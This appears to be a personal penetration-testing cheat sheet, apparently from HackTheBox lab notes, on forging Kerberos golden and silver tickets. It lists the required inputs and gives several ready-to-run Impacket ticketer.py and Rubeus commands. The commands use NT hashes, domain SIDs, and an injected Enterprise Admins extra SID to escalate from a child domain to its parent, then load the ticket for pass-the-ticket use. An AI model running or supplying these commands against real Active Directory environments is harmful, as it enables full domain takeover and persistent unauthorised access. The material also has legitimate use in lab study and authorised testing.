 Use this tool to construct golden ticket.
You need:
- Hash of krbtgt service.
- SID and FQDN of sub Domain
- SID Enterprise Admin group
- Fake target user.

refer to [[3. Attacking Domain Trusts - Child -> Parent Trusts - from Linux]] for details.

```sh
ticketer.py -nthash ef699384c3285c54128a3ee1ddb1a0cc -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain signed.htb -spn MSSQLSvc/DC01.signed.htb:1433 -groups 500 -user-id 1103 mssqlsvc
```

```
ticketer.py -nthash <hash> -domain-sid <asdf> -domain domain.com -spn SERVICE/DC01:1433 -groups 1105 -user-id 1102 TargetUser
```

```sh
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

```shell
slomkm@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```


```
ticketer.py -nthash 6963aad8ba1150192f3ca6341355eb49 -domain darkzero.ext -domain-sid S-1-5-21-1969715525-31638512-2552845157 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

```
ticketer.py -nthash 6963aad8ba1150192f3ca6341355eb49 -aesKey <krbtgt AES256 secret key> -domain-sid <trusted domain SID> -domain <trusted domain DNSname> -extra-sid <target SID> <trusted domain user SAMAccountName>
```


```
Rubeus.exe golden /rc4:6963aad8ba1150192f3ca6341355eb49 /user:<trusted domain user SAMAccountName> /id:<trusted domain user RID> /domain:<trusted domain DNSname> /sid:<trusted domain SID> /sids:<target SID> /dc:<trusted domain DC DNSname> /nowrap /ptt
```
